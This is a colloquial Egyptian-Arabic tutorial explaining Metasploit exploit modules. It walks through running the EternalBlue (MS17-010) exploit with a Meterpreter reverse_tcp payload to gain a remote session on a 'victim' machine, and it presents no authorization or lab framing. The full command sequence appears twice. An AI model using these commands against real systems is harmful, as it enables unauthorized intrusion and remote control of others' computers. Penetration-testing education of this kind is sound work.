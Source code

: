 
# **📌 يعني إيه وحدات الاستغلال (Exploit Modules)؟**

في **Metasploit**، عندك حاجة اسمها **وحدات الاستغلال**، ودي عبارة عن **أدوات جاهزة بتساعدك في استغلال الثغرات** بدل ما تكتب كود من الصفر.

💡 يعني لو عندك ثغرة معروفة، مش لازم تبرمج استغلال ليها بنفسك، ممكن تدور في Metasploit وتشوف إذا كان فيه وحدة استغلال جاهزة ليها، وتستخدمها على طول! 🔥

---

# **🎯 أنواع وحدات الاستغلال في Metasploit**

في Metasploit، فيه **4 أنواع رئيسية من وحدات الاستغلال**:

1️⃣ **Exploit Modules** – وحدات الاستغلال الجاهزة اللي بتنفذ الهجوم على الثغرة.  
2️⃣ **Payloads** – أكواد بتنزل على الجهاز المستهدف عشان تفتح اتصال عكسي أو تتحكم فيه.  
3️⃣ **Encoders** – بتساعد في إخفاء الاستغلال عشان يتخطى الحماية.  
4️⃣ **Auxiliary Modules** – أدوات إضافية زي الفحص والمسح وجمع المعلومات.

---

# **🚀 خطوات استخدام وحدات الاستغلال في Metasploit**

### **🟢 1. تشغيل Metasploit Console**

📌 شغل الـ **MSFConsole** باستخدام الأمر:

```bash
msfconsole
```

---

### **🟢 2. البحث عن وحدة استغلال (Exploit Module)**

📌 لو عايز تدور على استغلال لثغرة معينة، استخدم:

```bash
search smb
```

🔹 ده هيجيب لك كل الثغرات المرتبطة بـ SMB، زي **MS17-010 (EternalBlue)**.

---

### **🟢 3. اختيار وحدة الاستغلال المناسبة**

📌 لو لقيت الاستغلال اللي عايزه، استخدمه كده:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

🔹 كده انت اخترت وحدة الاستغلال اللي هتستخدمها.

---

### **🟢 4. ضبط الإعدادات (Set Options)**

📌 بعد اختيار الاستغلال، لازم تضبط الإعدادات زي IP الضحية وIP جهازك:

```bash
set RHOSTS 192.168.1.1   # جهاز الضحية
set LHOST 192.168.1.2    # جهازك اللي هيتلقى الاتصال العكسي
set LPORT 4444           # البورت اللي هيشتغل عليه الاتصال
```

---

### **🟢 5. اختيار الـ Payload المناسب**

📌 الـ **Payload** هو الكود اللي هيتنفذ بعد نجاح الاستغلال، وده مثال على اختيار Meterpreter:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

---

### **🟢 6. تنفيذ الاستغلال! 🚀**

📌 بمجرد ضبط كل الإعدادات، شغل الاستغلال بالأمر ده:

```bash
exploit
```

🔹 **لو كل حاجة تمام، هيتم تنفيذ الثغرة، وهيجيلك Session تتحكم من خلالها في الضحية باستخدام Meterpreter!** 🔥

---

# **💡 الخلاصة بالمصري:**

1️⃣ **وحدات الاستغلال (Exploit Modules) في Metasploit بتسهّل عليك تنفيذ الثغرات الجاهزة.**  
2️⃣ **ممكن تدور على ثغرة معينة باستخدام أمر `search` في Metasploit.**  
3️⃣ **بعد اختيار الثغرة، بتضبط إعدادات الهدف (`set RHOSTS` و `set LHOST`).**  
4️⃣ **بتختار الـ Payload المناسب عشان تفتح اتصال عكسي وتتحكم في الضحية.**  
5️⃣ **بتنفذ الاستغلال باستخدام أمر `exploit`، ولو نجح هتدخل على النظام المستهدف!**

---

## **🛠️ الخطوات العملية لاستخدام وحدات الاستغلال**

✅ **1. تشغيل Metasploit:**

```bash
msfconsole
```

✅ **2. البحث عن استغلال معين:**

```bash
search smb
```

✅ **3. اختيار استغلال معين:**

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

✅ **4. ضبط إعدادات الهدف:**

```bash
set RHOSTS 192.168.1.1
set LHOST 192.168.1.2
set LPORT 4444
```

✅ **5. اختيار الـ Payload:**

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

✅ **6. تنفيذ الاستغلال:**

```bash
exploit
```

🎯 **لو الاستغلال نجح، هتدخل على الضحية، وتقدر تكمل مرحلة ما بعد الاختراق!** 🔥